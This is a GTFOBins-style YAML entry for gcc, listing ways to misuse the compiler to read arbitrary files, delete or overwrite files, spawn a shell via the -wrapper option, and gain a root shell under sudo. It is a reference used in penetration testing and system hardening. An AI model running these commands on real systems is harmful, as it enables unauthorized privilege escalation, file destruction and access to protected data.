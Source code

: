 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
    - description: The file is read and parsed as a list of files (one per line), the content is disaplyed as error messages, thus this might not be suitable to read arbitrary data.
      code: |
        LFILE=file_to_read
        gcc @"$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        gcc -xc /dev/null -o $LFILE
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```

